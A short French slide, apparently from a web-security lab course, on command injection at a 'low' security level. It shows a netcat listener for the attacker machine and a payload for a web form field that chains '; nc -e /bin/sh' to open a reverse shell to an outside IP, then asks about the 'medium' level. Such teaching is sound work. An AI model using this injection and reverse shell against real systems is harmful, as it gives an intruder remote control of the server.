

# LOW LEVEL (netcat revershell)
Sur la machine attaquant :
nc -nlvp 1337

Sur l’entrée de la fenêtre web :

127.0.0.1 ; nc -e /bin/sh 192.168.32.130 1337

Que se passe t-il pour medium level security ?